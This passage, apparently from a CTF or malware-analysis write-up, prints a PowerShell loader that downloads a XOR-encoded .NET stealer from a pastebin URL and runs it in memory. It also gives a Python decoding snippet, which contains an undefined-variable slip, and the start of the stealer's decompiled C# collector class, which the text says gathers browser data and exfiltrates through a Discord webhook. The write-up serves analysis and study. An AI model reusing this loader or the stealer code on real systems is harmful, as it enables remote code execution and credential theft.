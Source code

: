 ```powershell
$AssemblyUrl = "https://pastebin.com/raw/90qeYSHA"
$XorKey = 0x24
$TypeName = "StealerJanai.core.RiderKick"
$MethodName = "Run"

try {
    $WebClient = New-Object System.Net.WebClient
    $encodedContent = $WebClient.DownloadString($AssemblyUrl)
    $WebClient.Dispose()
    
    $hexValues = $encodedContent.Trim() -split ',' | Where-Object { $_ -match '^0x[0-9A-Fa-f]+$' }
    
    $encodedBytes = New-Object byte[] $hexValues.Length
    for ($i = 0; $i -lt $hexValues.Length; $i++) {
        $encodedBytes[$i] = [Convert]::ToByte($hexValues[$i].Trim(), 16)
    }
    
    $originalBytes = New-Object byte[] $encodedBytes.Length
    for ($i = 0; $i -lt $encodedBytes.Length; $i++) {
        $originalBytes[$i] = $encodedBytes[$i] -bxor $XorKey
    }
    
    $assembly = [System.Reflection.Assembly]::Load($originalBytes)
    
    if ($TypeName -ne "" -and $MethodName -ne "") {
        $targetType = $assembly.GetType($TypeName)
        $methodInfo = $targetType.GetMethod($MethodName, [System.Reflection.BindingFlags]::Static -bor [System.Reflection.BindingFlags]::Public)
        $methodInfo.Invoke($null, $null)
    }
    
} catch {
    exit 1
}
```

After access the pastebin link, we know that it contain hex list. The code builds a byte array and xor byte with `0x24`, load it as a .NET assembly in memory and invoke.

Let's save the file from pastebin extract the dll

```python
i = open("90qeYSHA.txt","r",encoding="utf-8").read().split(",")
o = bytes(int(x,16)^0x24 for x in b)
open("out.dll","wb").write(o)
```

Because it is .NET code so load it in DnSpy, IlSpy,... to analyse. This is Stealer, there are function to add persistence, BrowserDataCollector, exfil through Discord webhook. However, I have focus on class `SystemSecretInformationCollector`

```cs
public class SystemSecretInformationCollector
{
	private const string MagicChars = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";

	public string Collect()
	{
		StringBuilder stringBuilder = new StringBuilder();
		try
		{
			string text = DecodeMagicToString("AuEcc3iNuamB9JOyfS1pel55JqxgJ83");
			string machineName = Environment.MachineName;
			string text2 = DecodeMagicToString("sA0m1sPHdceUL6HSvGAbFuhN");
			string registryValue = GetRegistryValue();
```